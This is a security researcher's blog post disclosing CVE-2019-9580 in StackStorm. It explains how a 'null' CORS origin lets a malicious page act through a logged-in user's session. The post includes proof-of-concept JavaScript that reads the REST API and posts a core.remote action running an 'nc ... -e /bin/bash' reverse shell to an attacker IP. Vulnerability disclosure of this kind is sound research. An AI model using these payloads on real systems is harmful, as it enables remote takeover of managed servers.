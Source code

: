 ```yaml
---
layout: post
title: StackStorm - From Originull to RCE - CVE-2019-9580
---
```


<div style="text-align:center"><img src="https://www.thefastmode.com/media/k2/items/src/3cc8012eca57577e33709ae3cf2556ae.jpg"></div><br>StackStorm (aka "IFTTT for Ops") is event-driven automation for auto-remediation, security responses, troubleshooting, deployments, and more.
In this blogpost I will describe how can you cause RCE on targeted servers which only requires an authenticated user browse to malicious webpage.


So first, lets understand what is StackStorm, StackStorm is a really popular (3K stars on github) devops event-driven automation tool, allows devops to configure actions, workflows, and scheduled tasks, in order to perform some operations on large-scale servers.

Actions will run on behalf remote servers managed by StackStorm agent. Those actions can be anything, from HTTP request to an arbitrary command as you can see in the following image:
<div style="text-align:center"><img src="https://lh6.googleusercontent.com/cHgBmUQavZ2tfo98YZzGbZtSqCOVZJrsSXiVrbFE3H9PobrckApM4fRx_ce2R1yFX59Dz5bpUlIAQg-Zh0JDQKZuBI4SqleX8uCczQEi"></div>

Due to the fact that StackStorm agent run those actions on remote servers it will be “blessed” by quite high-privileges. This fact really motivated me to find flaw in it.

I was managed to see this request:
<div style="text-align:center"><img src="https://lh3.googleusercontent.com/gnw0KB9Ii4BH-nR2zIKzHAVEMnJYy68bjO_3rD6uHW_RbZaJACFUQ8m-b_i_pyb3w9p9Hq1uw14VySYCPr31KjE6jazfkf2TzaSVSEa7BrLLWw3zPqvTn9Pzf4_VhGPVh_pMZQBG"></div>

As we can see the “Access-Control-Allow-Origin” header returning in each request to StackStorm REST API, even when request not includes the origin header, quite weird but anyway might make sense…
Then I started to send a malformed Origin header and I realized that the server cant handle it properly, and returning the header “Access-Control-Allow-Origin: null”:
<div style="text-align:center"><img src="https://lh5.googleusercontent.com/iROyOQlB1lRDbcvCOis4P8PkcJb3kcSG8PJCpyiAHjubxJ7tG9JIVu-nS9Vtd3Wo6bZoiQubqBTOP4FS5F7qWveiDXUqvtDkG_2uq-vNyPSITx-nQtB9GdwLbaO-iQtIQfWUYB2D"></div>


Right away I knew that there is something interstring in here, and reminded the [Originull attack discovered by Ysrael Gurt](https://bugsec.com/wp-content/uploads/2016/12/Blog-Post-BugSec-Cynet-Facebook-Originull.pdf)
This is the first time I encountered that on the wild, I was really curious about why is this happening in first place?
why servers returning “Access-Control-Allow-Origin: null” header at all? they can just not return this header at all.
I managed to read a bit the [The Web Origin Concept RFC](https://tools.ietf.org/html/rfc6454) and find page 11 quite interesting related to Originull:
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/MSAecvSRa9BHTCV32M526_aisMdNz2ApU_e5xoZRbf7bv9vkXQTP0rLJlRi3wzEIMg8ZQKj142Mk-v2i1wNAkI_t4hm4xDMxo9rRpLXG8qHjXQJrrgxKFzQF_Lz_tmdV8ym85pUs"></div>


To simplify, the RFC defines, in case the server got a malformed origin which cannot be serialized, set the string “null” as the Origin header.
Now we can understand what is the root cause for all this, that's makes me laugh a bit because the RFC defines one thing, but [Mozilla best practices](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin) saying to avoid using it (make sense anyway).

After we understand why is this happening, let’s understand how can we exploit this flaw?
So now the origin “null” have the a “full privileges” to StackStorm REST API, which means, that this origin can fetch requests and read responses on behalf any user that will browse to this “null” origin.
How can I get null origin? Via data/file scheme as shown in the PDF mentioned above.
You can run this in your browse and see that you get empty(document.domain=null) alert message:
```javascript
data:text/html;,<script>alert(document.domain)</script>
```
At the PDF document, they used a meta tag in order to redirect the user to browse this malicious data URL:
```bash
<meta http-equiv="refresh" content="0;URL='data:text/html;,<script>alert(document.domain)</script>'" />  
```

I tried to use the same technique in order have a popup message reading data from StackStorm REST API but I got this message:
<div style="text-align:center"><img src="https://lh6.googleusercontent.com/uxhmHpvw8aMpa9kaVcD8QFj9a6wDgaRXO3VAQRhuvM0ZfEcH1LCEBfSUvxmW0dD7u0_YPYzc5-Yl4jEAt0vKRiNWQQfpkIlszclJBDnHVyeME2kD4E3X4y7s3Rd8T55OYoLucEF7"></div>


Crap! I realized that chrome and firefox disabled any data scheme redirections.
I was needed to get another creative way to redirect users to execute this malicious script on null origin context.
Tried to manipulate redirections responses with data URL schemes on Location header but it failed.
Finally I used “javascript:” scheme, which allows me to execute JS code which runs on the same context as data and file schemes.
So by the javascript scheme I was managed to make a full working PoC as shown below:
```html
<script>	document.location="javascript:fetch('https://172.18.0.6/api/v1/executions',{credentials: 'include'}).then((res)=>{console.log(res.json().then((a) => {console.log(a)}));})"
</script>
```
We can see the REST API response object printed to the console and can be leak to anywhere:
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/e5tZ0o6HXlE4PCu9Ru_EaXQh_7ThnP5BEmGioidAKZqxS6pgW391Ykfd8gt022rE3aNAZeWhMVqgyFlDFg7WldynKB1Ys7R5aNS5qv0G0SqIdKTkzrg4O4JQA9Gx3Yrjx4KaadPp"></div>

So actually, we have to ability to read/update/create actions and workflows, get internal IPs and execute command on each machine which is accessible by StackStorm agent.

It is possible to perform code execution via core.remote action:
```html
<script>
		let jsonBody = {"action":"core.remote","parameters":{"cmd":"nc 192.168.100.113 4444 -e /bin/bash","hosts":"10.0.0.10"},"context":{"trace_context":{}}}
		document.location="javascript:fetch('https://172.18.0.6/api/v1/executions',{credentials: 'include', method: 'post', body: JSON.stringify(jsonBody),headers: {'Content-Type': 'application/json'}}).then((res)=>{console.log(res.json().then((a) => {console.log(a)}));})"
</script>

```
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/N_RVrqFZcfJcZ3AK9DyZnLkAzbMTtdk9A6MTEsiuMIHfik4RADjEZAH3Yt4gB6xIRU6E5gDOmwuXkuK-m4x0kybVeKrrQ6DG23mvF5fJyT7DGFvSNBLidEBsuheYxnmkA8LR2LZ5"></div>

So I was sure I done, but then I tried to run it from a web server, and got the following error message:
<div style="text-align:center"><img src="https://lh5.googleusercontent.com/wyjtRTeOMqk6AtCZ8AWIR8uPXet9us9iRP7S2TeXp1ACU9AGQ_Z2hOlM3r9yFec8tbhgMLWkep9QcNV3JcHrcKnvKMwqHh2CSOmHzlu8V3tY9sSD7-WO8FOhIwQQYgAoODFPDWrY"></div>

I was like, not again!!! The browser actually saves the origin context even if we use javascript, so it was only exploitable via sending a file to the user and make him open it.
I was frustrated and motivated at the same time, and got help from my talented colleague Chen Gur Arie, we managed to bypass this as well, and we got Origin null context from a page loaded in a domain (btw, Flash can do that as well)
I don't want to elaborate about how we did it, because we still trying to figure out what are the implications of it.

Now all an attacker needs is to send a malicious link to a victim which is authenticated to StackStorm Web UI, thus, allow the attacker take over any server accessible by StackStorm agent as you can see at [the PoC video](https://www.youtube.com/watch?v=KnvWCg2Q7k4)
